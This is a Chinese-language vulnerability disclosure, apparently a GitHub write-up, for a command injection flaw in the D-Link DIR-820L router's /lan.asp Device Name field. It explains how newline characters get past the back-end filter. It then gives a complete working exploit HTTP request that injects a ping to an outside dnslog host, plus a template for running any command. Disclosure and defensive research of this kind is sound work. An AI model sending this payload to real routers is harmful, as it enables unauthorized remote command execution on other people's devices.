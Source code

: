 # D-Link DIR-820L 存在命令注入漏洞

**漏洞厂商**: D-Link

**厂商官网**: http://www.dlink.com.cn/

**影响产品**: DIR-820L

**影响产品版本**: 1.05 B03

**固件链接**: http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone, Akast@Hillstone,GD@Hillstone

## 漏洞详情

在路由： `/lan.asp`， `Device Name` 的值可以命令注入。这个参数有前后端过滤，前端过滤可以 burp 抓包绕过，后端过滤在 `hasInjectionString` (在文件 `lib/libleopard.so`) 。阅读源码之后发现 `\n` 没有被过滤。

![image-20220222165316794](img/image-20220222165316794.png)

## EXP

改数据包 `lanHostCfg_DeviceName_1.1.1.0` 的值为要注入的命令即可，例如：

> lanHostCfg_DeviceName_1.1.1.0=%0aYOUR_COMMAND%0a



```html
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 768
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/lan.asp
Cookie: hasLogin=1

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0aping ccak2r.dnslog.cn%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1645537536373=1645537536373
```

